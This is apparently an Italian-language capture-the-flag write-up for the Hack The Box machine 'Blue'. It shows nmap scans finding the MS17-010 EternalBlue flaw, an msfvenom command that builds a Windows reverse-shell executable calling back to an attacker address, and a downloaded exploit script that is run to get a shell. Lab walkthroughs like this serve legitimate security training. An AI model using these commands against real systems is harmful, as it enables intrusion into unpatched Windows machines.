 # Blue

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.40
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Il risultato della scansione è il seguente:

```text
Nmap scan report for 10.10.10.40
Host is up (0.053s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Home Server 2011 (Windows Server 2008 R2) (96%), Microsoft Windows Server 2008 SP1 (96%), Microsoft Windows Server 2008 SP2 (96%), Microsoft Windows 7 (96%), Microsoft Windows 7 SP0 - SP1 or Windows Server 2008 (96%), Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1 (96%), Microsoft Windows 7 Ultimate (96%), Microsoft Windows 7 Ultimate SP1 or Windows 8.1 Update 1 (96%), Microsoft Windows 8.1 (96%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 2s, median: -1s
| smb2-time:
|   date: 2023-11-27T14:06:05
|_  start_date: 2023-11-27T13:52:52
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-11-27T14:06:07+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled but not required
```

## Enumeration
Avvio una scansione per verificare la presenza di vulnerabilità:

```text
nmap --script vuln -oA vuln 10.10.10.40
```

Il risultato è il seguente:

```text
Nmap scan report for 10.10.10.40
Host is up (0.056s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Host script results:
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
|_smb-vuln-ms10-054: false
```

**Quindi scopro che la macchina è vulnerabile all'EternalBlue!**

## Exploitation
Tramite _searchsploit_ scarico lo script per sfruttare questa vulnerabilità:

<p align="center">
  <img src="/Immagini/Windows-Box/Blue/blue-1.png"/>
</p>

Ispezionando il file appena scaricato mi rendo conto di avere bisogno di due cose:
 - Il payload per creare la reverse-shell.
 - Le credenziali di autenticazione.

Utilizzo _msfvenom_ per generare l'eseguibele per ottenere la reverse-shell:

```text
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.3 LPORT=9999 > eternal-blue.exe
```

Successivamente, tramite _enum4linux_ se il login come utente _guest_ è permesso:

```text
enum4linux -a 10.10.10.40
```

Dal risultato capisco che il login come _guest_ è possbile, quindi aggiorno lo script precedentemente scaricato e lo avvio nel seguente modo:

```text
python 42315.py 10.10.10.40
```

**Sono dentro!**
